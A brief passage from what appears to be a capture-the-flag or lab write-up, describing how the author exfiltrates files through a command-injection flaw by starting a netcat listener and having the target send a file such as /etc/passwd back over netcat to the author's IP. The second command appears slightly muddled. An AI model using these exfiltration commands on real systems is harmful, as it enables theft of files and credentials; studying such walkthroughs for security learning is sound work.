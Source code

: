 After trying various payloads, i discovered a way to transfer files to my machine using netcat.

First up i setup a netcat listener  and specify the filename i want the contents to be in `nc -lvnp <PORT> > filename`

I'll first try to output the contents of /etc/passwd

![](attachments/20231231172639.png)
![](attachments/20231231172725.png)
and then use netcat to connect back to my ip on the listening port and also specified the file i want. `nc <IP> <PORT> /bin/bash < filename`. The single quotes is part of the command injection payload, so all commands should be inside of it.

![](attachments/20231231173319.png)

![](attachments/20231231172848.png)
a connection was received, now i can stop the listener and cat the file.
